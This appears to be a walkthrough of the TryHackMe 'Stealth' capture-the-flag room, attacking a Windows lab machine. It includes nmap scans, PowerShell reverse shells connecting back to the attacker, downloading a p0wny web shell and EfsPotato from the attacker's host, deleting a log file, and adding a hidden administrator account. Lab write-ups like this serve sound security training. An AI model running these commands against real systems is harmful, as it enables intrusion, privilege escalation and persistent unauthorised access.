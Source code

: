 # Stealth

**Room Link:** [https://tryhackme.com/r/room/stealth](https://tryhackme.com/r/room/stealth)



## **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1013).png" alt=""><figcaption></figcaption></figure>



Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1014).png" alt=""><figcaption></figcaption></figure>

## **TCP/8000 - HTTPS**

**Kali**

```
```

## **TCP/8080 - HTTPS**

<figure><img src="../../.gitbook/assets/image (1015).png" alt=""><figcaption></figcaption></figure>

## **Initial Shell**

**Kali**

```
rlwrap nc -lvnp 4444
```

### **Shell #1 attempt**

This shell didn't work

**Kali**

```
git clone https://github.com/samratashok/nishang.git
cd nishang/Shells/
subl Invoke-PowerShellTcp.ps1
```

**Kali(subl)**

```
Invoke-PowerShellTcp -Reverse -IPAddress $KALI -Port 4444
```

### **Shell #2 attempt**

This shell worked

**Kali**

```
git clone https://github.com/martinsohn/PowerShell-reverse-shell.git
cd PowerShell-reverse-shell/
subl powershell-reverse-shell.ps1
```

**Change this line to Kali IP**

**Kali(subl)**

```
Net.Sockets.TCPClient('$KALI', 4444)
```

<figure><img src="../../.gitbook/assets/image (1016).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd C:\Users\evader\Desktop
dir
type encodedflag
```

<figure><img src="../../.gitbook/assets/image (1017).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
echo WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDovLzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5waHA= | base64 --decode
```

<figure><img src="../../.gitbook/assets/image (1018).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1019).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd C:\xampp\htdocs\uploads
del log.txt
```

refresh the page and we can see the flag now.

<figure><img src="../../.gitbook/assets/image (1021).png" alt=""><figcaption></figcaption></figure>



## **Lateral Movement**

Going by privs we don't have much but since we have web I tried adding a new shell and seeing if we get anything from it.

**Victim**

```
whoami /priv
```

<figure><img src="../../.gitbook/assets/image (1022).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/flozz/p0wny-shell.git
cd p0wny-shell/ 
python2 -m SimpleHTTPServer 82
```

**Victim**

```
cd C:\xampp\htdocs
iwr -uri "http://$KALI:82/shell.php" -o shell.php
```

<figure><img src="../../.gitbook/assets/image (1023).png" alt=""><figcaption></figcaption></figure>

Even though we're the same user this shell has SeImpersonatePrivilege enabled

<figure><img src="../../.gitbook/assets/image (1024).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation**&#x20;

I tried printspoofer but I couldn't execute the exe.

### **Attempt #1**

**Kali**

```
git clone https://github.com/dievus/printspoofer
cd printspoofer/
python2 -m SimpleHTTPServer 82
```

**Victim**

```
cd C:\Users\evader\Desktop
iwr -uri "http://$KALI:82/PrintSpoofer.exe" -o PrintSpoofer.exe
PrintSpoofer.exe -i -c whoami
```

### Attempt #2

We can see a EFI folder so looks like a clue on what to do.

**Victim**

```
cd C:\
dir
```

<figure><img src="../../.gitbook/assets/image (1027).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/zcgonvh/EfsPotato.git
cd EfsPotato/
python2 -m SimpleHTTPServer 82
```

**Victim**

```
iwr -uri "http://10.10.252.180:82/EfsPotato.cs" -o efs.cs
```

**Victim(p0wny-shell)**

```
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe efs.cs -nowarn:1691,618
efs.exe "cmd.exe /c net user user password@123 /add && net localgroup administrators user /add"
```

**Kali**

```
remmina
Username: user
Password: password@123
```

<figure><img src="../../.gitbook/assets/image (1026).png" alt=""><figcaption></figcaption></figure>















